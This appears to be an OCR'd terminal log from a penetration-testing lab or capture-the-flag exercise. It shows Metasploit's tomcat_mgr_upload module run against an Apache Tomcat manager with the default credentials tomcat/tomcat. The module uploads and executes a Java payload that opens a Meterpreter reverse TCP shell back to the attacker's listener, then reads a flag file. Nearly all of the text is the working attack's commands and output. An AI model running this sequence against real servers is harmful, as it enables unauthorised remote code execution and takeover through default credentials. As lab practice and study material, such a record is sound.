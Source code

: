 ```
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasplo
                                            it/basics/using-metasploit.html
   RPORT         80               yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be use
                                            d)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.127.130  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 192.168.242.52
RHOSTS => 192.168.242.52
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 32810
RPORT => 32810
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 192.168.45.242
LHOST => 192.168.45.242
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 192.168.45.242:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying TnTpIwCA3yiaM2rC...
[*] Executing TnTpIwCA3yiaM2rC...
[*] Undeploying TnTpIwCA3yiaM2rC ...
[*] Undeployed at /manager/html/undeploy
[*] Sending stage (58829 bytes) to 192.168.242.52
[*] Meterpreter session 2 opened (192.168.45.242:4444 -> 192.168.242.52:41205) at 2023-03-06 11:18:22 -0500

meterpreter > cat /home/flag.txt
OS{44317a2460a9b459d896c6dad24fb51b}
```

